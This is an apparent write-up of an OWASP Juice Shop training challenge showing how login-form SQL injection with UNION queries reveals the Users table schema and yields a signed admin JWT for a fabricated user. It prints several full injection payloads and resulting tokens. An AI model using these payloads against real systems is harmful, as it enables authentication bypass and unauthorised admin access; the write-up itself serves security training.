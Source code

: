 # Bonus Challenge: Generating a JWT Token for a Non-Existent User With Admin Privileges
*(It's not listed in the scoreboard as of 2019/08/21)*

## Description
I was attempting to complete the [Admin Registration (L3)](../../level-3#admin-registration) challenge, and while attempting that, I discovered a way to generate a JSON Web Token (JWT) for a non-existent user that had admin privileges.

## How?
### 1. Starting with SQL Injection
I was experimenting with SQL injection at the login page of the OWASP Juice Shop, and was looking at trying to log in with my user, but instead of matching my user info that was in the database, I would copy most of that, and change the `isAdmin` flag. The only way I could think to do this was using a `UNION` or `UNION ALL` in my SQL injection.

Early on, I ran into a lot of issues with the columns from the `UNION` not matching up, like below. I don't know the schema at this point (and I'm intentionally not looking it up because I'm trying to emulate an attacker).

<img src="images/nonexistent-user-admin-token-sql-union-error.png">

### 2. Getting the User Table Schema
I found that there was 2 ways get the schema. One of the explicitly tells you the schema, and the other you can infer the schema from.

#### 2a. Explicit: Get the Schema via SQL Injection
So, at this point, I needed to find how to get the schema. The way I initially did it was looking at if I could get the endpoint to output the schema as one of the fields. Since the errors I got were from SQLite, a few quick google searches told me how to [get the columns for a table](https://stackoverflow.com/a/54962853), and [concat them into a single value](https://stackoverflow.com/a/3926380). So, I started with this:

```
' UNION ALL SELECT * FROM (SELECT (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('Users')), null)--
```

For the one above, I got the column mismatch again, but the syntax was valid and no issues with functions not existing. I kept adding `null`s one at time to the end of it until that didn't happen. Eventually, I got up to 11 `null`s (in addition to the subquery `SELECT`).

**Initial Injection Payload - Column Names**
```
' UNION ALL SELECT * FROM (SELECT (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('Users')), null, null, null, null, null, null, null, null, null, null, null)--
```

Once I clicked the submit button, I got presenting with a 2FA page. Progress!

*Note that my user does NOT have 2FA attached to it, but it brings me to the page anyways.*

<img src="images/nonexistent-user-admin-token-2fa.png">

From there I looked at the token that I got back in the requests, and it was another JWT token.

**2FA JWT Token - Column Names**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJpZCx1c2VybmFtZSxlbWFpbCxwYXNzd29yZCxpc0FkbWluLGxhc3RMb2dpbklwLHByb2ZpbGVJbWFnZSx0b3RwU2VjcmV0LGlzQWN0aXZlLGNyZWF0ZWRBdCx1cGRhdGVkQXQsZGVsZXRlZEF0IiwidHlwZSI6InBhc3N3b3JkX3ZhbGlkX25lZWRzX3NlY29uZF9mYWN0b3JfdG9rZW4iLCJpYXQiOjE1NjU5Njk1ODEsImV4cCI6MTU2NTk4NzU4MX0.FSDMBOs2C20Eqb-c_PghsbQ7dUiHpwQe5qrLsllp2W41Wg6MVpFXPTMY0gB0HGFI4Deeun6Iw7B5a2yy5Pb339wXfZLCHisXpmfS08i2pxsd_N70wvzqUZtrjALvardSB3_FCh9St1c5oAQOuqlq7EDGvFymFtiPdNz8-4DR6BE
```

Once I decoded it, I found the schema below.

<img src="images/nonexistent-user-admin-token-column-name-token.png">

Neat. Though I realized that the schema it looked EXACTLY like the user data in the a normal JWT token from this application, which brings me to the other way to figure out the schema.

#### 2b. Inference: Look at a Normal JWT Token
In the [Password Strength (L2)](../../level-2#password-strength) challenge, I found the admin account's password in the JWT token, and this is what the JWT token looks like when it is decoded.

**Normal JWT Token for a Logged-In User**
<img src="../../level-2/images/2-admin-password-jwt.png">

Hey, it's literally all of the table fields as the SQL injection way in 2a. Let's move on.

### 3. Generating the Non-Existent User's Token with Admin Privileges

So, at this point, I took the fields in the schema list, and filled them **in the same order** so the `UNION` would match up with the column list from `SELECT * FROM Users` login SQL query. You also need to switch `true` and `false` values to 1 and 0, respectively (but maybe that's a relic from my days using MSSQL). After you update the `isAdmin` value to `1` (or `true`), it should look like this:

**Injection Payload - Generate Admin Token**
```
' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'someone@something.io' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '172.16.189.1' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

And here is the SQL query that the server will run (formatted and prettified)
```sql
SELECT * 
FROM  users 
WHERE  email = '' 

UNION

SELECT * 
FROM ( 
  SELECT 15                          AS 'id', 
  ''                                 AS 'username', 
  'someone@something.io'             AS 'email', 
  'b4448762fc877c2d57b2c9723118d264' AS 'password', 
  1                                  AS 'isAdmin',
  '172.16.189.1'                     AS 'lastLoginIp' , 
  'default.svg'                      AS 'profileImage', 
  ''                                 AS 'totpSecret', 
  1                                  AS 'isActive', 
  '2019-08-16 14:14:41.644 +00:00'   AS 'createdAt', 
  '2019-08-16 14:33:41.930 +00:00'   AS 'updatedAt', 
  NULL                               AS 'deletedAt'
)
--AND password = 'b4448762fc877c2d57b2c9723118d264' AND deletedAt IS NULL 
```

My injection payload worked! I got to the main search page and I was logged in as my *faux* user. My user did exist at this point, but this all works even if the user does not exist. I took at look at my JWT token in my cookie / application settings.

**Non-Existent User JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTUsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJzb21lb25lQHNvbWV0aGluZy5pbyIsInBhc3N3b3JkIjoiYjQ0NDg3NjJmYzg3N2MyZDU3YjJjOTcyMzExOGQyNjQiLCJpc0FkbWluIjp0cnVlLCJsYXN0TG9naW5JcCI6IjE3Mi4xNi4xODkuMSIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDE5LTA4LTE2IDE0OjE0OjQxLjY0NCArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDE5LTA4LTE2IDE0OjMzOjQxLjkzMCArMDA6MDAiLCJkZWxldGVkQXQiOm51bGx9LCJpYXQiOjE1NjU5NzE5NDcsImV4cCI6MTU2NTk4OTk0N30.OhfHXsnCteRB-LSuTxucIeV59paLJs7gzjqi5DMm0-84UIuvmIXdzChDsLGsfgzYXSxkTwtyzWpla8z-xAsxVnKLiNUr7noQde6yklK8Pw1YXLKFcz2Olga7Yra5ezfIWv3-OxKTUxZgdQsoi7kdOl2wWtH8bJxUXsGUTStkre0
```

Once you decode that token, it looks like this:

<img src="images/nonexistent-user-admin-token-decoded.png">

Boom! I'm an admin that doesn't exist! To finish this off, I went to the administration page to find out if this worked, and it does! Yay!

<img src="images/nonexistent-user-admin-token-admin-page.png">

### Differences from the Current SQL Injection Challenges

All of the challenges want you to log in as an existing user (or it mentions NOT to use SQL injection). It also makes you use some more complex SQL injection using `UNION` and makes for an interesting challenge that differs from the other SQL injection challenges. Also makes you try to figure out the User table schema, either by applying more injection or trying to infer it.

### Differences from the Current JWT Challenges

There are 2 different JWT challenges. They both mention that the token should be unsigned or almost properly signed, but I actually have a properly signed JWT token now. Hmm... Let's try using this method and see if we complete the challenges.

> **JWT Issues Tier 1 (T5)**
>
> Forge an essentially unsigned JWT token that impersonates the (non-existing) user jwtn3d@juice-sh.op.

```
' UNION SELECT * FROM (SELECT 1001 as 'id', '' as 'username', 'jwtn3d@juice-sh.op' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '0.0.0.0' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

**jwtn3d@juice-sh.op JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTAwMSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6Imp3dG4zZEBqdWljZS1zaC5vcCIsInBhc3N3b3JkIjoiYjQ0NDg3NjJmYzg3N2MyZDU3YjJjOTcyMzExOGQyNjQiLCJpc0FkbWluIjp0cnVlLCJsYXN0TG9naW5JcCI6IjAuMC4wLjAiLCJwcm9maWxlSW1hZ2UiOiJkZWZhdWx0LnN2ZyIsInRvdHBTZWNyZXQiOiIiLCJpc0FjdGl2ZSI6dHJ1ZSwiY3JlYXRlZEF0IjoiMjAxOS0wOC0xNiAxNDoxNDo0MS42NDQgKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAxOS0wOC0xNiAxNDozMzo0MS45MzAgKzAwOjAwIiwiZGVsZXRlZEF0IjpudWxsfSwiaWF0IjoxNTY1OTc3NTEzLCJleHAiOjE1NjU5OTU1MTN9.yIlgAEaeL7sgF-rjoU1wTmZMmBpz1Zr2KIl5wbkcDCkRhi-Tc9H-FNBocaOMGYpIwmoMUfLpCaWxlC_qcDZLlvGRArdS0-svgOKwUujxLTrJhbqQIYsTmEkTMruNFYhRgrCijFhnYsOyqqWDSlW_n1NyRUYtMgtAMIezVl4UAuE
```
Challenge not complete even with the above token!

> **JWT Issues Tier 2 (T6)**
>
> Forge an almost properly RSA-signed JWT token that impersonates the (non-existing) user rsa_lord@juice-sh.op.

**Injection Payload**
```
' UNION SELECT * FROM (SELECT 999 as 'id', '' as 'username', 'rsa_lord@juice-sh.op' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '0.0.0.0' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

**rsa_lord@juice-sh.op JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6OTk5LCJ1c2VybmFtZSI6IiIsImVtYWlsIjoicnNhX2xvcmRAanVpY2Utc2gub3AiLCJwYXNzd29yZCI6ImI0NDQ4NzYyZmM4NzdjMmQ1N2IyYzk3MjMxMThkMjY0IiwiaXNBZG1pbiI6dHJ1ZSwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMTktMDgtMTYgMTQ6MTQ6NDEuNjQ0ICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMTktMDgtMTYgMTQ6MzM6NDEuOTMwICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTU2NTk3NzI3MywiZXhwIjoxNTY1OTk1MjczfQ.uOxQ5gPiTT-MCmGsgOE0NodOG77UqSRizHbsD-tvjt8X73V8SDkXfxFRQ4kjf3O1iyzK2BmWsrMk66GILz7HT5nNvEhdGHT9nTA5nBjXncCEy13xnNAwfi8qyJO8SMLCyCnMrx4RtC0X3VbY6kR2aJ7F5FL6q8V6Qp_4SO2SLeo
```
Challenge not complete even with the above token!

So, its doesn't match either of these challenges, which makes sense. Yay! I found a way to get a legit token for a non-existent user. 

